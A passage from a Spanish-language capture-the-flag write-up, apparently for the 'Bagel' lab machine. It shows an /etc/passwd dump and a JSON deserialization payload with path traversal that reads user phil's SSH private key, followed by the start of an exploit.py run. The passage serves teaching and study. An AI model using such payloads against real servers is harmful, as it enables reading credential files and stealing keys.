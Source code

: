 ```console
    "ReadFile": "root:x:0:0:root:/root:/bin/bash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/spool/mail:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\ngames:x:12:100:games:/usr/games:/sbin/nologin\nftp:x:14:50:FTP User:/var/ftp:/sbin/nologin\nnobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin\ndbus:x:81:81:System message bus:/:/sbin/nologin\ntss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin\nsystemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin\nsystemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin\nsystemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin\npolkitd:x:998:997:User for polkitd:/:/sbin/nologin\nrpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin\nabrt:x:173:173::/etc/abrt:/sbin/nologin\nsetroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin\ncockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin\ncockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin\nrpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin\nsshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin\nchrony:x:994:992::/var/lib/chrony:/sbin/nologin\ndnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin\ntcpdump:x:72:72::/:/sbin/nologin\nsystemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin\nsystemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin\ndeveloper:x:1000:1000::/home/developer:/bin/bash\nphil:x:1001:1001::/home/phil:/bin/bash\n_laurel:x:987:987::/var/log/laurel:/bin/false",
    "WriteFile": null
  },
  "WriteOrder": null,
  "ReadOrder": null
}
```

Ahora bien, ya teníamos un LFI anteriormente, pero quizás el servidor de WebSocket no lo está ejecutando `developer` si no `phil`, así que vamos a intentar leer su clave privada.

Modificamos el payload.
```console
{
    "RemoveOrder": {
        "$type": "bagel_server.File, bagel",
        "ReadFile": "../../../../../../../../home/phil/.ssh/id_rsa"
    }
}
```

Y podemos leer su clave privada, así que ya solo falta darla formato, permisos e iniciar sesión por SSH como `phil`
```python3
python3 exploit.py
[*] Enviando payload malicioso...
[*] Respuesta del servidor: {
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "6:12:40",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
```